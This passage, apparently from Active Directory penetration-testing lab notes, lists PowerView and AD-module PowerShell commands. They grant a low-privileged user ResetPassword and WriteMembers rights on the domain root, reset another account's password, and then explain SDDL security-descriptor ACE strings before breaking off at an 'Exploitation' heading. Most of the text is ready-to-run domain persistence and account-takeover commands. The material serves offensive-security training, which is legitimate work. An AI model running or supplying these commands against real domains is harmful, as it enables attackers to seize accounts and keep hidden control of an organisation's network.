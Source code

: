 ```powershell
# Using PowerView
Add-ObjectAcl -TargetADSprefix 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalSamAccountName student572 -Rights "ResetPassword" -Verbose

# Using AD Module
Set-ADACL -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student572 -GUIDRight "ResetPassword" -Verbose

# Reset password for account
# Using PowerView_dev
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose

# Using AD Module
Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

#### WriteMembers Rights

```powershell
# Using PowerView
Add-ObjectAcl -TargetADSprefix 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalSamAccountName student572 -Rights "WriteMembers" -Verbose

# Using AD Module
Set-ADACL -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student572 -GUIDRight "WriteMembers" -Verbose
```

## Security Descriptors

### General

- It's possible to modify Security Descriptors (security information like Owner, primary group, DACL and SACL) of multiple remote access methods (secureable objects to allow access to non-admin users)
- Admin privileges required
- Security Description Definition Language defines format for Security Descriptors
- SDDL uses ACE strings for DACL and SACL

```powershell
ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
```

- ACE for built-in administrators for WMI namespaces

```powershell
A;CI;CCDCLCSWRPWPRCWD;;;SID
```

### Exploitation
